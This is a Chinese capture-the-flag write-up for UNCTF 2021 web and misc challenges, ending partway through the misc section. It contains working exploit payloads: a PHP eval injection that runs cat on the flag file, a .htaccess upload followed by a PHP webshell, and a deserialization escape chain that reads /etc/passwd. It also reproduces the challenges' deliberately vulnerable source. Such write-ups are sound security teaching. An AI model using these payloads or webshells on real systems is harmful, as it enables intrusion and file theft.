1. [web](#web)
    1. [fuzz_md5](#fuzz_md5)
    2. [can_you_hacked_me](#can_you_hacked_me)
    3. [phpmysql](#phpmysql)
    4. [babywrite](#babywrite)
    5. [easy_serialize](#easy_serialize)
2. [misc](#misc)
    1. [简单的日志审计](#简单的日志审计)
    2. [电信诈骗](#电信诈骗)
    3. [引大流咯，happy](#引大流咯，happy)
    4. [倒立洗头](#倒立洗头)
3. [crypto](#crypto)
    1. [rsa](#rsa)


# web
## fuzz_md5

进去一看，代码审计
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$user=$_GET["user"];
$pass=$_POST["pass"];
$pass2=md5($pass);
$pass3=substr($pass2, 0, 5);
$a=preg_replace("/unctf/i","",$user);
if($a==="unctf"){
    if($pass3==="66666"){
        echo $flag;
    }
    else{
        echo "welcome to unctf~";
    }
}
else{
    echo "welcome to unctf~~";
}
```

首先传参1需要绕过`preg_replace("/unctf/i","",$user);`，这个简单，双写即可绕过

传参2需要满足md5后前五位等于66666，然后题目又提示fuzz，那就写脚本把


```php
<?php
for($a=1;$a<=100000000;$a++){
    #echo $a;
    $b=md5($a);
    $c=substr($b,0,5);
    #echo $c,'<br>';
    if($c==='66666'){
        echo '<hr>',$a,'-',$c,'<hr>';
        break;
    }
}
?>
```
最后得到结果为1004649



## can_you_hacked_me

查看源码提示www.zip,下载后发现有账号密码还有主页文件,代码审计
```php
<?php
include "flag.php";
error_reporting(0);

function waf1($inject) {
    preg_match("/'|union|select|&|\||and|or|\(|,/i",$inject) && die('return preg_match("/\'|union|select|&|\\||and|or|(|,/i",$inject);');
}

if(isset($_GET['username']) && isset($_GET['password'])) {
    $username = $_GET['username'];
    $password = $_GET['password'];
    
    waf1($username) || waf1($password);
    
    if (strtolower($_GET['username']) == 'admin' && $_SERVER["REMOTE_ADDR"] != '127.0.0.1') {
        die('Admin only allow to login at localhost');
    }
    
    $conn = new mysqli("127.0.0.1","root","root","supersqli");
    
    $sql = "select * from `users` where username = '$username' and password = '$password';";

    $result = $conn->query($sql);
    
    echo $sql . '<br>';
    
    if ($result->num_rows > 0) {
        // 输出数据
        while($row = $result->fetch_assoc()) {
            if($row["username"] === 'admin') {
                echo 'Welcome Admin, here is your flag: ' . $flag;
            } else {
                die("You are not Admin.");
            }
        }
    } else {
        echo "Result Not Found!";
    }
    $conn->close();
}
?>
```
```sql
CREATE DATABASE IF NOT EXISTS supersqli;

USE supersqli;

CREATE TABLE IF NOT EXISTS `users` (
  `id` int(10) NOT NULL,
  `username` varchar(20) NOT NULL,
  `password` varchar(20) NOT NULL
) ENGINE=MyISAM  DEFAULT CHARSET=utf8;


INSERT INTO `users` values(1,'test', 'test'),(2,'admin','AdminSecret');
```

最终发现可以利用sql解析漏洞登录,用户名ádmin密码AdminSecret，因为测试发现ā á ǎ à ā á ǎ àē é ě èī í ǐ ìō ó ǒ òū ú ǔ ùǖ ǘ ǚ ǜ分别与aeiou相等



## phpmysql

打开一看又是代码审计
```php
<?php
show_source(__FILE__);
echo("欢迎来到unctf2021，have fun"."<br>");

$db_host=$_POST['host'];
$db_user=$_POST['user'];
$db_pwd=$_POST['pwd'];
$db_port=$_POST['port'];

if($db_host==""){
    die("数据库地址不能为空！");
}

if(is_numeric($db_host)){
    echo("fakeflag is /flag"."<br>");
    if(preg_match("/;|\||&/is",$db_user) || preg_match("/;|\||&/is",$db_pwd) || preg_match("/;|\||&/is",$db_port)){
        die("嘉然今天吃什么");
    }
    system("mysql -h $db_host -u $db_user -p $db_pwd -P $db_port --enable-local-infile");
}
else{
    echo("Maybe you can do someting else"."<br>");
    if(!isset($db_user) || !isset($db_pwd)){
        eval("echo new Exception(\"<script>alert('关注嘉然，顿顿解馋！！！');</script>\");");
    }
    else{
        $db_user = str_ireplace("SplFileObject", "UNCTF2021", $db_user);
        eval("echo new $db_user($db_pwd);");
    }
}
```
最终payload
```shell
host=127.0.0.1&user=Exception&pwd=)?><?=`cat /fllllaaaaag`?>&port=123
```


## babywrite

代码审计
```php
<?php
highlight_file(__FILE__);
$sandbox = md5($_SERVER['REMOTE_ADDR']);
if (!is_dir($sandbox)) {
    mkdir($sandbox);
}
if (isset($_GET['filename']) && isset($_GET['content'])) {
    $filename = $_GET['filename'];
    $content = $_GET['content'];
    if (preg_match_all("/ph|\.\.|\//i", $filename) || strlen($filename) > 10) {
        die("No way!");
    }
    if (preg_match_all("/<\?|ph/", $content)) {
        die("No way!");
    }
    $filename = $sandbox . "/" . $filename;
    @file_put_contents($filename, $content);
    echo $filename;
}
```
一道简单的写马题，但是过滤又贼多，最终发现可以利用上传.htaccess绕过,并且可以利用数组绕过过滤

首先上传.htaccess文件

`filename=.htaccess&content[]=AddType application/x-httpd-php .txt`



`filename=1.txt&content[]=<?php phpinfo();system($_POST[qqqqq]);?>`



写马完成，访问1.txt



成功访问并且获取flag

## easy_serialize

代码审计，是一个反序列化字符逃逸，减少，参照`[安洵杯 2019]easy_serialize_php`,并且还有php弱比较MD5

```php
<?php
include "function.php";
$action = @$_POST['action'];
$name = $_POST['name'];
$pass = $_POST['pass'];
$email = $_POST['email'];

function filter($file){
    $filter_arr = array('flag','php','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$file);
}

$a= $_GET['a'];
$b = $_GET['b'];

$u = new UNCTF($pass,$email,$name);
$s = serialize($u);


switch($action){
    case 1:
        highlight_file('function.php');
        break;
    default:
        highlight_file('index.php');
}

if(md5($a) == md5($b) && $a !=$b){
    unserialize(filter($s));
}
<?php
class me7eorite{
    //test  
    public $safe;
    public $class;
    public function __construct()
    {
        $this->safe = "/etc/passwd";
        $this->class=new UNCTF('me7eorite','me7eorite@qq.com','me7eorite');           
    }
    public function __toString()
    {
        $this->class->getShell();
        return '';
    }
    public function getShell(){
        readfile($this->safe);
    }
}

class UNCTF{
    public $pass;
    public $email;
    public $name;
    public function __construct($pass,$email,$name)
    {
        $this->pass  = $pass;
        $this->name = $name;
        $this->email = $email;
    }
    public function getShell(){
        echo 'flag{this_is_fake}';
    }
    public function __destruct()
    {
        echo $this->name . 'Welcome to UNCTF 2021!';
    }
}
```

弱比较简单，网上随便找两个md5后是0e开头的就可以或者两个数组绕过，因为数组无法被MD5

?a=QNKCDZO&b=240610708


首先构造pop
```php
<?php
class me7eorite{
    var $safe='a';
    var $class;
}

class UNCTF{
    public $pass='a';
    public $name;
    public $email='a';
}
$a=new UNCTF;
$a->name=new me7eorite;
$a->name->class=new me7eorite;
$a->name->class->safe='1.txt';
echo serialize($a);
?>
```

本地包含测试



本地包含成功

## 然后梳理一下反序列化字符串逃逸

本题中过滤flag,如果在反序列化中过滤后，他这个前面的数字是不变的，但是如果数字不变那就依然要吃掉这么多的字符，举例

`s:5:"email";s:21:"flagflagflagphpphpphp";s:4:"pass";s:4:"abc";`

本题中过滤了flag,php,替换为空，那么这个21个字符就没了，变成了

`s:5:"email";s:21:"";s:4:"pass";s:4:"abc";`

由于21不变，那么依然要往后吃掉21个字符串，所以吃掉的部分就是

`s:5:"email";s:21:"【";s:4:"pass";s:4:"abc】";`

方括号不算，后加的，方便理解，也就是说双引号内的这些内容就只能是内容了，而不能被赋值

然后我们根据题意先本地搭建环境，加上字符串逃逸进行测试,输入`name=1&email=2&pass=3`



发现顺序不一样，我们按照输出的顺序来，输出为

`O:5:"UNCTF":3:{s:4:"pass";s:1:"3";s:5:"email";s:1:"2";s:4:"name";s:1:"1";}`

加上字符串逃逸先修改payload试试，尝试覆盖name的值

`O:5:"UNCTF":3:{s:4:"pass";s:1:"flagflagflagflagflag";s:5:"email";s:1:"2";s:4:"name";s:1:"1";}`

name过滤后吃掉即可成为

`O:5:"UNCTF":3:{s:4:"pass";s:1:"【";s:5:"email";s:1:"2】";s:4:"name";s:1:"1";}`

然后我们加上自己的payload

`O:5:"UNCTF":3:{s:4:"pass";s:1:"【";s:5:"email";s:1:"2】";s:5:"email";s:1:"9;s:4:"name";s:2:"99";}s:4:"name";s:1:"1";}`

改完后

`O:5:"UNCTF":3:{s:4:"pass";s:1:"a";s:4:"name";O:9:"me7eorite":2:{s:4:"safe";s:1:"a";s:5:"class";O:9:"me7eorite":2:{s:4:"safe";s:5:"1.txt";s:5:"class";N;}}s:5:"email";s:1:"a";}`

尝试加上字符串逃逸包含/etc/passwd

`action=1&pass=flagflagflagphpphpphp&email=";s:5:"email";s:1:"b";s:4:"name";O:9:"me7eorite":2:{s:4:"safe";s:1:"a";s:5:"class";O:9:"me7eorite":2:{s:4:"safe";s:11:"/etc/passwd";s:5:"class";N;}}`



直接去寻找flag,这里有个憨憨的点，做出来了兴奋过头了然后忘记了过滤了flag......直接双写绕过

`action=1&pass=flagflagflagphpphpphp&email=";s:5:"email";s:1:"b";s:4:"name";O:9:"me7eorite":2:{s:4:"safe";s:1:"a";s:5:"class";O:9:"me7eorite":2:{s:4:"safe";s:5:"/flflagag";s:5:"class";N;}}`


# misc
## 简单的日志审计

打开日志，发现两处可疑base64代码，解码发现flag

## 电信诈骗

CTFer,你好，我是威震天！其实我在芝加哥大战中没死，现在你只需要打2000RMB到我的银行账户，我就可以用这2000RMB发红包骗取人们的信任，然后穿过股市网络找到震荡波在纽约给我找的新身体，然后我就可以复活了。今天如果你帮了我，复活后我可以入侵股市网络把钱全部给你们。等过了周末，我就让红蜘蛛变成飞机去接你，然后我把红蜘蛛杀了，让你当霸天虎副指挥官，然后我们从南极洲呈扩散式发出霸天虎军队，万军齐发，占领地球，怎么样？为了防止这条消息被擎天柱拦截。我将银行卡号进行了加密，希望你能成功解密。我的银行账户是qi]m^roVibdVbXUU`h

变异凯撒，上脚本
```python
c = "qi]m^roVibdVbXUU`h"

for move in range(0,50):
    flag = ""
    for i in c:
        flag += chr(ord(i)- move)
        move = move -1

    print(flag)
```
